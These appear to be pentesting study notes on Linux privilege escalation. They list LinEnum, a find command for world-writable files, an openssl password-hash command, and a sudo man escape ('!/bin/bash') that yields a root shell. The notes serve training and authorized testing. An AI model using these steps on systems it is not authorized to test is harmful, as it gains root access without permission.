 # 7 - Linux Privilege Escalation

## <mark style="color:red;">Weak Permissions</mark>

#### **LinEnum**

* LinEnum is a simple bash script that automates common Linux local enumeration checks in addition to identifying privilege escalation vulnerabilities.
  * GitHub Repo: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
# So, putting it all together, the command find / -not -type l -perm -o+w searches the entire file system starting at the root directory (/) and looks for files that are writable by anyone and are not symbolic links.

find / -not -type l -perm -o+w # Search for file on the target system that the every user can read/write.

openssl passwd -1 -salt <randomText> <newPassword> #Generate a hashed password with algorithm 1.
```
{% endcode %}



## <mark style="color:red;">SUDO Privileges</mark>

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo -l # List the files/commands the current user can use as sudo.

# in this case the user can execute the (/usr/bin/man) binary, The "man" binary on linux essential provides us with the mannual/help for linux cmds/utilities.
sudo man ls # launch the manual page for "ls" utility.
# click "!" then type /bin/bash, provides us with a root session.
!/bin/bash
```
{% endcode %}



